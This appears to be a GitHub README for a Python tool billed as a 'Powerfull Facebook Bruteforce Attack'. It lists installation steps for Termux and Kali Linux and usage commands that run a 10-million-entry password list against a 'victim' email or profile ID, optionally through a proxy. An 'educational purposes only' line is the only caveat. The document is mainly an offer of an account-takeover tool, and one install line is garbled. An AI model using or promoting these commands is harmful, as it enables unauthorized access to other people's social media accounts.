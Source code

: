 
###### Powerfull Facebook Bruteforce Attack.
***
### <p align="center">Commands to run tool in ur terminal Termux && Kali Linux
***

 ```bash
Note : Tool is Made of Educational Purposes only.
       Please try not to harm anyone device 
       it's For Fun Purpose Not For Revenge

```
## Language is used to Make this tool
- Python
  
## The Tool is for :
- Windows
- Kali Linux
- Android~Termux
- macOs
- any Os has python(2.x, 3.x) with required modules

###### Installation
```bash
apt update && apt upgrade -y
```
```bash
apt install git -y
```
```bash
https://github.com/ICA-REX/ICA-REX.git
```
```bash
cd ICA-REX
```
```bash
bash setup
```
```bash
python ica_hack.py
```

## usage :-
  - **U can Use Victim email Or Facebook Profile Id**:
  
  - **Brute Force On Facebook Account Without proxy**:
  
  * **Command**: python ica_hack.py -t victim@gmail.com -w 10MPASS.txt
  
  - **Brute Force On Facebook Account With Proxy**:
   
    * **Command**: python ica_hack.py -t victim@gmail.com -w 10MPASS.txt -p 144.217.101.245:3123
    
    - **Get Target Facebook Profile ID**:
  
   
    * **Command**: python ica_hack.py -g https://www.facebook.com/rexit
  
